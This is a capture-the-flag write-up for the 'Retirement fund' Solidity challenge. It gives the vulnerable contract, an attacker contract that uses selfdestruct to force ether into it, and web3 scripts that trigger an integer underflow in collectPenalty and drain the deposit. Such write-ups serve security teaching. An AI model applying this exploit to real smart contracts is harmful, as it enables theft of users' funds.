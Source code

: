 # 11. Retirement fund

This retirement fund is what economists call a commitment device. I’m trying to make sure I hold on to 1 ether for retirement.

I’ve committed 1 ether to the contract below, and I won’t withdraw it until 10 years have passed. If I do withdraw early, 10% of my ether goes to the beneficiary (you!).

I really don’t want you to have 0.1 of my ether, so I’m resolved to leave those funds alone until 10 years from now. Good luck!

## Target contract

```solidity
pragma solidity ^0.4.21;

contract RetirementFundChallenge {
    uint256 startBalance;
    address owner = msg.sender;
    address beneficiary;
    uint256 expiration = now + 10 years;

    function RetirementFundChallenge(address player) public payable {
        require(msg.value == 1 ether);

        beneficiary = player;
        startBalance = msg.value;
    }

    function isComplete() public view returns (bool) {
        return address(this).balance == 0;
    }

    function withdraw() public {
        require(msg.sender == owner);

        if (now < expiration) {
            // early withdrawal incurs a 10% penalty
            msg.sender.transfer(address(this).balance * 9 / 10);
        } else {
            msg.sender.transfer(address(this).balance);
        }
    }

    function collectPenalty() public {
        require(msg.sender == beneficiary);

        uint256 withdrawn = startBalance - address(this).balance;

        // an early withdrawal occurred
        require(withdrawn > 0);

        // penalty is what's left
        msg.sender.transfer(address(this).balance);
    }
}
```

## Vulnerability

The issue here is `uint256 withdrawn = startBalance - address(this).balance;` inside `collectPenalty`. The contract has no real control over its global ETH balance. You may have read from the documentation that since solidity 0.4.0, fallback functions must be marked as payable otherwise the contract will throw and that is correct, for example doing the following will not increase the target contract's balance but revert instead :

```js
const challengeContract = "0xc1dEe7412AAB848e12bF11325f0DC8d5cabdb7f6";

await web3.eth.sendTransaction({
  from: accounts[0],
  to: challengeContract,
  value: 1,
});
```

There is one highly controversial mechanism in solidity that can bypass any verifications : `selfdestruct`. So if we write a contract that holds some ETH and `selfdestruct` to the challengeContract address it will forward all of its balance to it, effectively bypassing any fallback / receive function as no code from the challenge contract will actually be executed.

Let's deploy the following contract:

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Attacker {
  address targetContract;
  
  constructor (address _targetContract) payable {
    require(msg.value > 0);
    targetContract = _targetContract;
  }

  function attack() public {
    selfdestruct(payable(targetContract));
  }
}
```

And call it's attack function to force an ETH transfer to the target contract :

```js
const adversarialContract = "0xe090d618A3329A987C0A09837284Bd95E5cE9FcA";

const data = web3.eth.abi.encodeFunctionCall(
  {
    name: "attack",
    type: "function",
    inputs: [],
  },
  []
);

await web3.eth.sendTransaction({
  from: accounts[0],
  to: adversarialContract,
  data: data,
});
```

We can check that the balance of the challenge contract is greater than 1 ETH :

```js
const challengeContract = "0xc1dEe7412AAB848e12bF11325f0DC8d5cabdb7f6";

const challengeBalance = await web3.eth.getBalance(challengeContract);
console.log(challengeBalance);
// 1000000000000000001 or 1 ETH = 1 wei as I deployed the adversarial contract with 1 wei
```

Now we can call `collectPenalty` on the target contract as `uint256 withdrawn = startBalance - address(this).balance;` is greater than 0. We actually cause an underflow here, meaning that `withdrawn` equals `2^256` - the value that we sent to our adversarial contract upon deploiement.

```js
const challengeContract = "0xc1dEe7412AAB848e12bF11325f0DC8d5cabdb7f6";

const data = web3.eth.abi.encodeFunctionCall(
  {
    name: "collectPenalty",
    type: "function",
    inputs: [],
  },
  []
);

await web3.eth.sendTransaction({
  from: accounts[0],
  to: challengeContract,
  data: data,
});
```
Where we stole not 0.1 ETH but the whole 1 ETH deposit... Submit the challenge and move on to the next one !
